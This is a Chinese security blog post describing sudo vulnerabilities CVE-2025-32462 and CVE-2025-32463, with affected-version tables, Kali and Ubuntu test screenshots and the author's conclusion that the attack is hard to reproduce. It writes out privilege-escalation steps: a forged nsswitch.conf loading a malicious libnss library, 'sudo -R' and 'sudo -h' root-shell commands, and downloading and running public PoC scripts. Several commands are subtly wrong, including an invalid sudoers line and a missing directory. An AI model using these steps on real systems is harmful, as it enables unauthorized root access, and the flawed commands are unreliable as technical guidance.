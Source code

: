 #  CVE-2025-32462&CVE-2025-32463  
原创 simeon的文章  小兵搞安全   2025-07-02 11:19  
  
- **CVE-2025-32462（主机规则绕过）**  
-h/--host  
 选项未遵循最小权限原则，在非列表场景（如命令执行）中未验证主机规则边界。当 sudoers  
 文件使用 Host  
 或 Host_Alias  
 配置主机级权限时，攻击者可构造恶意主机名绕过访问控制链  
  
。  
- **CVE-2025-32463（Chroot NSS劫持）**  
  
漏洞根因在于 sudo 1.9.14+  
 将 chroot()  
 路径解析提前至 sudoers  
 规则评估前。攻击者在可控目录内植入伪造的 /etc/nsswitch.conf  
，通过 libnss_*.so  
 加载恶意库实现 root shell  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkdqHaTAeqGnia5JyNRXae2GVrlOE8VqBjCToK86sGial6YlVk1AN1txibQ/640?wx_fmt=png&from=appmsg "")  
### 1.1.1CVE-2025-32462 攻击路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkvG4vJnSk6b05ks5GIGTjcAs8gIzNuHyC9Y9d29eqUyCJqkakwujGxQ/640?wx_fmt=png&from=appmsg "")  
  
触发条件：需满足 sudoers 中存在分主机权限规则（常见于LDAP/SSSD统一策略环境  
### 1.1.2受影响的发行版与版本  
<table><tbody><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">发行版</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">受影响版本</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">修复版本</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Ubuntu</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">20.04+/24.04 LTS</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">1.9.9-1ubuntu2.5+ (22.04)</span></span><span style="color: rgb(64, 64, 64);background-color: rgb(229, 229, 229);font-size: 12px;"></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Debian</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Bookworm </span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">1.9.13p3-1+deb12</span></span></p></td></tr></tbody></table>## 1.2CVE-2025-32463 利用链  
### 1.2.1在用户可写目录创建恶意结构  
  
mkdir ./exploit_root  
  
echo 'passwd: ../tmp/libnss_exploit.so.2' > ./exploit_root/etc/nsswitch.conf  
  
gcc -shared -fPIC -o /tmp/libnss_exploit.so.2 exploit.c # 含setreuid(0,0)构造函数  
### 1.2.2触发漏洞  
  
sudo -R ./exploit_root /bin/true  # 加载恶意库获取root shell  
  
核心缺陷：chroot 环境路径解析与 sudoers 评估时序倒置  
## 1.3 CVE-2025-32462 验证步骤  
  
1.配置漏洞环境（需sudoers含主机规则）  
  
echo 'user1 ALL=(ALL:ALL) Host_Alias=TRUSTED_HOSTS' > /etc/sudoers.d/test  
  
2.执行绕过  
  
sudo -h malicious_hostname /bin/bash  # 获取root shell  
  
CVE-2025-32463 自动化检测  
  
wget   
https://stratascale.com/poc/sudo-chwoot.sh  
  
chmod +x sudo-chwoot.sh  
  
./sudo-chwoot.sh check  
## 1.4实际测试  
### 1.4.1 kali2024版本虚拟机测试  
  
1.查看当前内核版本  
  
uname -ar  
  
cat /proc/version  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkPpAgHCVnuLpw2LCQno0b5M9jyeibS3cVia7aHH2VjutOsxXwia4pIWSEA/640?wx_fmt=png&from=appmsg "")  
  
sudo -V  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9Nk0dr75Fq0m5FVOE8vGCAfBZvGxrcChJERZnYGqQNnjhES7gEU6iaWicyQ/640?wx_fmt=png&from=appmsg "")  
  
2.下载poc并执行  
  
git clone   
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git  
  
cd CVE-2025-32463_chwoot  
  
./sudo-chwoot.sh  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9Nkel3NyTEMtDIZfFncws1VdWPG9atGUSiaGdOpSaDJAgfBqIg0AUs8p7w/640?wx_fmt=png&from=appmsg "")  
### 1.4.2 kali2025测试失败  
  
1.查看内核版本及sudo版本  
  
cat /proc/version  
  
sudo -V  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9Nk0Ch1ayu2sT4RqfsKjuYyQwIUCvBavlia5xpJaYibbaNtQh5sSbxaMBwQ/640?wx_fmt=png&from=appmsg "")  
  
2.下载并执行poc  
  
 clone   
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git  
  
cd CVE-2025-32463_chwoot  
  
./sudo-chwoot.sh  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkHMzg7HmGgiaBHlPXbg2NibfejKK46INgmicmXrAMhJP0dEiaBCdicw2tn2w/640?wx_fmt=png&from=appmsg "")  
### 1.4.3 ubuntu22版本  
  
1.基本信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkjUvT1ILrVOMk3zHdSpEHz9mExa4qRty6HE9iak9VBKmaxsGm8P8maMg/640?wx_fmt=png&from=appmsg "")  
  
2.测试poc  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkteoKzkLibWSoYfO1Z5GWEkbH1Jy3AnBr0ErlKe3ntK49wDc6ft9YibrA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkwUpdjAg1jS69YicKichiatMoiaF60ef5ibicKqD9RccY5icvmEPIpTdOGEicTA/640?wx_fmt=png&from=appmsg "")  
  
当前账号没有R权限，需要在/etc/sudoers  
 有R权限。  
  
john ALL=(ALL) NOPASSWD: /path/to/woot -R  
  
      外面传的很厉害，在kali中测试比较成功，在ubantu2022版本以及真实环境中均未再现。个人感觉有些鸡肋。  
  
  
